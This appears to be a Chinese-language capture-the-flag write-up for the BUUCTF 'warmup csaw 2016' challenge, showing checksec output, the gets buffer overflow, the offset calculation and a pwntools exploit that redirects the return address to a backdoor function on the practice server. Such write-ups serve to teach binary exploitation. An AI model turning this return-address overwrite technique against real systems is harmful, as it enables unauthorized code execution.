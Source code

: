 ```yaml
---
author: 
  name: Zephyr
title: warmup csaw 2016
date: 2022-3-19 20:12:04
permalink: /pages/1e944742e534d18b
tags: 
  - buuctf

---
```


# warmup csaw 2016

## 前提

### 查看文件保护

```shell
root@localhost ~# checksec warmup_csaw_2016
[*] '/root/warmup_csaw_2016'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

## 静态分析

![jhdaasw](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/jhdaasw.png)

存在溢出函数gets，另外通过查找函数表发现后门函数sub_40060D

![fasecxz](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/fasecxz.png)

## 思路分析

本题比较简单，一开始将后门函数的地址就打印了出来，可以接收该地址，再通过gets函数溢出将返回地址修改为该值即可获得flag。

## 确定偏移量

使用cyclic，简单测试一下即可得知本题偏移量为0x40+8=72

## exp

```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/warmup_csaw_2016/warmup_csaw_2016'
io = remote('node4.buuoj.cn', 27868)
# io = process(pwnfile)
padding = 0x40+8
io.recvuntil(b':')
backdoor = int(io.recvuntil(b'\n', drop=True), 16)  # 接收地址
print("backdoor:{0}".format(hex(backdoor)))
payload = flat(['a'*padding, backdoor])
io.sendline(payload)
io.interactive()
```